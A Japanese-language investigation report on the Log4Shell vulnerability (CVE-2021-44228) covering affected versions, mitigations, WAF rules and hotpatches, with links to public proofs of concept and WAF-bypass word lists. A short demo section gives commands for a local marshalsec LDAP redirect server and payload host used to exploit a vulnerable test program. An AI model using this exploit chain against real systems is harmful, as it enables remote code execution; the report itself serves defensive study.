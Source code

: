 # 2021-12-14 log4shell(CVE-2021-44228) 調査レポート

## log4j2 のゼロデイ脆弱性が発見されました。

[https://www.itmedia.co.jp/news/articles/2112/10/news157.html](https://www.itmedia.co.jp/news/articles/2112/10/news157.html)

[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)

- log4j2 は Java のロギングライブラリで、Javaアプリで広く利用されている
    
    ```java
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    
    public class Log4j2Test {
        private static final Logger logger = LogManager.getLogger(Log4j2Test.class);
        public static void main(String[] args) {
            logger.error("error message");
        }
    }
    ```
    
- 2021/12/9、この log4j2 で RCE の脆弱性がPOCとともにtwitter投稿
    - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
    - 元ツイは削除されていた
- 容易に攻撃可能な脆弱性ということで、twitterではお祭り騒ぎ、各社緊急対応に追われている
- log4j2 で RCE できることから、log4shell と呼ばれている

[https://twitter.com/knqyf263/status/1469264324334350339](https://twitter.com/knqyf263/status/1469264324334350339)

[https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)

## **CVE-2021-44228**

[https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

> Apache Log4j2 <=2.14.1 設定、ログメッセージ、パラメータに使用される JNDI 機能は、攻撃者が制御する LDAP や他の JNDI 関連のエンドポイントから保護されません。ログメッセージやログメッセージのパラメーターを制御できる攻撃者は、メッセージのルックアップ置換が有効な場合、LDAP サーバーからロードされた任意のコードを実行できます。log4j 2.15.0 からは、この動作はデフォルトで無効になっています。以前のリリース（>2.10）では、システムプロパティ「log4j2.formatMsgNoLookups」を「true」に設定するか、クラスパスから JndiLookup クラスを削除することで、この動作を緩和することができます（例：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class）。Java 8u121（[https://www.oracle.com/java/technologies/javase/8u121-relnotes.html](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html) 参照）では、「com.sun.jndi.rmi.object.trustURLCodebase」および「com.sun.jndi.cosnaming.object.trustURLCodebase」をデフォルトで「false」に設定することで、リモートコードの実行から保護しています。

- Java Naming and Directory Interface (JNDI) は、Javaアプリがディレクトリサービスが提供するデータ・リソースを参照するための汎用API
    - [https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)
- 本脆弱性は log4j2 のJNDI Lookup を悪用    
- LDAP だけでなく、DNS や RMI でも同様の攻撃が可能

## 影響範囲

- 2.0-beta9 <= log4j <= 2.14.1
    - 1.x については、12/14時点では影響を受ける可能性はあるが低リスクとの結論
    
    [Restrict LDAP access via JNDI by rgoers · Pull Request #608 · apache/logging-log4j2](https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126)
    
- JDK バージョン `6u211`, `7u201`, `8u191`, `11.0.1` 以上は影響なし
    - com.sun.jndi.ldap.object.trustURLCodebase=false となっているため
    - NVDに記載の方法を試してみたが、JDK 8u121 で回避できなかった 🤔
    - `8u191` は 2018/10/26 にリリースされたもの

## 回避策

[https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

### log4j 2.10.0 以上

- プロパティ設定 formatMsgNoLookups=true
- 環境変数を設定 LOG4J_FORMAT_MSG_NO_LOOKUPS=true

[https://twitter.com/mattn_jp/status/1470027729466978306](https://twitter.com/mattn_jp/status/1470027729466978306)

### log4j 2.10.0 未満

- org.apache.logging.log4j.core.lookup.JndiLookup クラスを安全なものに置き換える

### Java アップデート

`6u211`, `7u201`, `8u191`, `11.0.1` 以上

## 恒久対応

- log4j を 2.15.0 にアップデート
    - ただし一部課題もあり、2.16.0 で完全に対策できる模様
    
    [https://twitter.com/ryotkak/status/1470177786891767810](https://twitter.com/ryotkak/status/1470177786891767810)
    

## デモ

![log4shell.png](images/log4shell/log4shell.png)

```bash
python -m SimpleHTTPServer 8800

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8800/#Exploit"

/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/java -cp "target/classes:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar" Log4j2Test
```

## スキャン状況

<https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22>

IOC

- Domain: [https://gist.github.com/superducktoes/9b742f7b44c71b4a0d19790228ce85d8](https://gist.github.com/superducktoes/9b742f7b44c71b4a0d19790228ce85d8)
- IP: [https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217](https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217)

## WAF について

- 続々とリリースされている
    - [https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/](https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/)
    - [https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability](https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability)
- バイパスの方法もいろいろある
    
    [https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)
    

## HotPatch

[https://github.com/Cybereason/Logout4Shell](https://github.com/Cybereason/Logout4Shell)

[https://github.com/corretto/hotpatch-for-apache-log4j2](https://github.com/corretto/hotpatch-for-apache-log4j2)

## 参考

[https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html](https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html)

[https://www.jpcert.or.jp/at/2021/at210050.html](https://www.jpcert.or.jp/at/2021/at210050.html)

[https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

[https://www.security-next.com/132414](https://www.security-next.com/132414)

[CVE-2021-44228 - vuldb](https://vuldb.com/?id.187925)
